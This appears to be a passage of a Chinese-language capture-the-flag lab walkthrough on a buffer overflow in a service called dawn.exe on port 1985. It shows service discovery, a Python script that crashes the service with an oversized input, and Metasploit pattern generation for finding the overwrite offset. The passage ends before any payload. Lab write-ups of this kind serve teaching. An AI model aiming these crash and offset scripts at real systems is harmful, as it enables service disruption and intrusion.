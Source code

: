 ### 漏洞发现

把dawn.exe复制到windows调试机，运行后，发现可输入一些字符。

```cmd
C:\Users\John>tasklist|findstr dawn
dawn.exe                      2800 Console                    1      2,232 K
C:\Users\John>netstat -ano|findstr 2800
  TCP    0.0.0.0:1985           0.0.0.0:0              LISTENING       2800
```

由此判定靶机1985端口运行的大概率是dawn.exe

使用脚本进行调试

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
buff = "A" * 300
nullByte = "\x00"
inputBuffer = buff + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
s.close()
```

![2](https://static.iihack.com/vulnhub/424/2.PNG)

运行后，dawn.exe 停止工作，说明存在缓冲区溢出漏洞。

## 获得权限

### 本地测试

继续测试

使用Immunity Debugger 打开dawn.exe并运行

使用msf-pattern_create生成字符串

```bash
$ msf-pattern_create -l 300   
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

#### 📌确定位置

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
buff = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"
nullByte = "\x00"
inputBuffer = buff + nullByte
```